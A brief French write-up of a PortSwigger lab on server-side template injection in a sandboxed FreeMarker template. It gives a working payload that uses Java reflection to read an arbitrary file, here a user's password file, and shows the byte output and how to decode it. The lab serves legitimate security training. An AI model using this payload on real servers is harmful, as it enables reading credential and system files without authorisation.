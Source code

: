 # Lab

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment

## Payload

C'est du Java - Freemarker, on peut utiliser le payload suivant :

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('path_to_the_file').toURL().openStream().readAllBytes()?join(" ")}
```

Ce qui nous donne :

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

On obtient le contenu du fichier `/home/carlos/my_password.txt` sous forme de bytes : `56 48 52 50 52 53 109 56 97 118 97 117 122 112 114 57 117 115 103 52`

Puis décoder le résultat de bytes vers ASCII avec CyberChef.